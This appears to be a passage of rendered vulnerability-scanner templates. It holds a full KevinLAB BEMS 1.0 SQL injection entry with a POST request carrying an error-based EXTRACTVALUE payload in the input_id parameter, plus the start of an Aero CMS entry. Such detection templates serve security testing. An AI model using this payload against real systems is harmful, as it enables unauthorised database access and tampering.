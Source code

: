 **Type - word**
- words
    1. {{md5({{num}})}}
- part - body

**Type - status**
- status
    1. 200

---
# KevinLAB BEMS 1.0 - SQL Injection
## Description
- KevinLAB BEMS 1.0 contains a SQL injection vulnerability. Input passed through input_id POST parameter in /http/index.php is not properly sanitized before being returned to the user or used in SQL queries. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.
- severity - critical
- tags - kevinlab,sqli,edb,packetstorm
## Requests
### Step - 1
```
POST /http/index.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate

requester=login&request=login&params=[{"name":"input_id","value":"USERNAME' AND EXTRACTVALUE(1337,CONCAT(0x5C,0x5A534C,(SELECT (ELT(1337=1337,1))),0x5A534C)) AND 'joxy'='joxy"},{"name":"input_passwd","value":"PASSWORD"},{"name":"device_id","value":"xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx"},{"name":"checked","value":false},{"name":"login_key","value":""}]

```
### Matchers

**Type - word**
- words
    1. XPATH syntax error
    2. : '\ZSL1ZSL'
- condition - and

**Type - status**
- status
    1. 200

---
# Aero CMS v0.0.1 - SQL Injection
## Description
- The `author` parameter from the AeroCMS-v0.0.1 CMS system appears to be vulnerable to SQL injection attacks.The malicious user can dump-steal the database, from this CMS system and he can use it for very malicious purposes.
